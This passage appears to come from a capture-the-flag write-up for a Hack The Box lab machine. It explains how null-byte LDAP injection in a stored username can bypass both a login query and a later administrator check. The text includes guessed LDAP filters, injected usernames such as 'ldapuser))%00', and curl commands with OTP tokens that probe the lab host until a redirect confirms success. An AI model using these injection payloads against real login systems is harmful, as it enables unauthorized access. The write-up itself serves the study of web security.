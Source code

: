 If this is the case, then I have some control over the name that’s stored. I
want to store a username that will actually be an injection to dork the check
on `page.php`. This is similar to [second-order SQL
injection](/2018/07/07/second-order-sql-injection-on-htb-nightmare.html). In
this case, I need to be able to submit some username that is able to pass the
login LDAP query _and_ that will dork the administrator check LDAP query on
`page.php`.

This double injection will be much easier to pull off if the number of `()` on
the two queries I’m trying to get through happen to be same. I’ll start with
that case and hope it works. For examples, if I guess that the login query and
admin check queries are something like:

    
    
    login: (&(uid=$username)(pager=*))
    admin: (&(uid=$username)(group='Admin'))
    

Then I can try to use null bytes to do this second order injection. If I
provide `ldapuser))%00`, the queries will be:

    
    
    login: (&(uid=ldapuser))%00)(pager=*))
    admin: (&(uid=ldapuser))%00)(group='Admin'))
    

Since the null truncates:

    
    
    login: (&(uid=ldapuser))
    admin: (&(uid=ldapuser))
    

That input will get both queries to return my user!

### Exploit Second Order Ldap Injection

I showed an example where I needed one closing `)`. But I don’t know that
number. I’ll just test with differing numbers of closing parentheses. The
query that’s being run on the server is likely more complex than what I
guessed above, so more maybe needed to balance things out.

I’ll use curl, and look for a 302 redirect, which happens on successful login:

    
    
    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    < HTTP/1.1 302 Found
    
